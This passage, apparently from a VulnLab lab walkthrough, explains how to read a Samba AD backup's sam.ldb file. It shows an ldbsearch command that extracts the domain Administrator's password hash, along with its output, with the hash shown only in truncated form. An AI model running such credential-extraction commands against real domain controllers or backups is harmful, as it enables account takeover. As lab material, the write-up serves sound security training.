 By searching `ad linux backup ldb` we can find [the documentation](https://wiki.samba.org/index.php/Back_up_and_Restoring_a_Samba_AD_DC) explaining how Samba backup works.

By searching `sam ldb hash extract` we can also find a few resources that explain how to read the `sam.ldb` file:

- <https://samba.tranquil.it/doc/en/samba_fundamentals/about_password_hash.html>
- <https://samba.samba.narkive.com/HDAsLjU3/being-able-to-read-password-hashes>
- <https://wiki.samba.org/index.php/LDB>

![](/assets/vulnlab/chains/unintended/img/19.png)

`ldbsearch` has almost identical syntax to `ldapsearch`, and we can use it to query the local `sam.ldb` file.

First make sure it's installed:

```shell-session
└─$ sudo apt install ldb-tools
```

Let's extract Administrator's hash:

```shell-session
└─$ ldbsearch -H sam.ldb '(samaccountname=Administrator)' 'unicodepwd'            
# record 1
dn: CN=Administrator,CN=Users,DC=unintended,DC=vl
unicodePwd:: Nv4<...>4ow==

# Referral
ref: ldap:///CN=Configuration,DC=unintended,DC=vl

# Referral
ref: ldap:///DC=DomainDnsZones,DC=unintended,DC=vl

# Referral
ref: ldap:///DC=ForestDnsZones,DC=unintended,DC=vl

# returned 4 records
```